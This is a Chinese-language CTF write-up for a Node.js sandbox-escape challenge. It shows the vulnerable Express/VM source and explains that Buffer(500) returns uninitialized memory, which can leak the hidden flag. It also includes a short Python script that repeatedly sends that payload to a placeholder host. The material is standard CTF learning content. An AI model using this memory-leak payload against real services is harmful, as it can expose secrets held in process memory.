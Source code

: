 var app = express();
var flag = require("./config.js").flag

app.get("/", function(req, res) {
    res.header("Content-Type", "text/plain");

    /*    Orange is so kind so he put the flag here. But if you can guess correctly :P    */
    eval("var flag_" + randomstring.generate(64) + " = \"flag{" + flag + "}\";")
    if (req.query.data && req.query.data.length &lt;= 12) {
        var vm = new VM({
            timeout: 1000
        });
        console.log(req.query.data);
        res.send("eval ->" + vm.run(req.query.data));
    } else {
        res.send(fs.readFileSync(__filename).toString());
    }
});

app.listen(3000, function() {
    console.log("listening on port 3000!");
});</code></pre>

完全没有头绪，参考<a href="https://blog.csdn.net/weixin_46676743/article/details/112669105" target="_blank" rel="noreferrer noopener" rel="nofollow" >wp</a>才知道这是道关于node.js沙箱逃逸的题，首先定义变量 flag，然后可以在沙箱里面执行任意的命令。如果我们能够构造请求，使得vm上下文代替我们去读取利用沙箱外的代码和变量的话，那就形成了沙箱逃逸。基本原理参考：<a rel="noreferrer noopener" href="https://juejin.cn/post/6889226643525599240" target="_blank" rel="nofollow" >https://blog.csdn.net/qq_41903941/article/details/109379205</a>。不过这题没用到原型链，直接用Buffer()函数用于读取内存的内容，可以通过这个函数直接去读取全局内存中的内容。在较早一点的node版本中(8.0之前),当 Buffer的构造函数传入数字时,会得到与数字长度一致的一个 Buffer,并且这个Buffer是未清零的。8.0之后的版本可以通过另一个函数Buffer. allocUnsafe(size)来获得未清空的内存。

<pre class="wp-block-code"><code># encoding=utf-8

import requests
import time
url = 'http://your ip:port/?data=Buffer(500)'
response = ''
while 'flag' not in response:
        req = requests.get(url)
        response = req.text
        print(req.status_code)
        time.sleep(0.1)
        if 'flag{' in response:
            print(response)
            break</code></pre>

由于内存的保护机制，并不是每一次都能读取到含有flag内容的代码的，多运行几次脚本就好了。<figure class="wp-block-image size-full">

<img loading="lazy" width="971" height="271" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/09/图片-149.png" alt="" class="wp-image-3816" /> </figure>
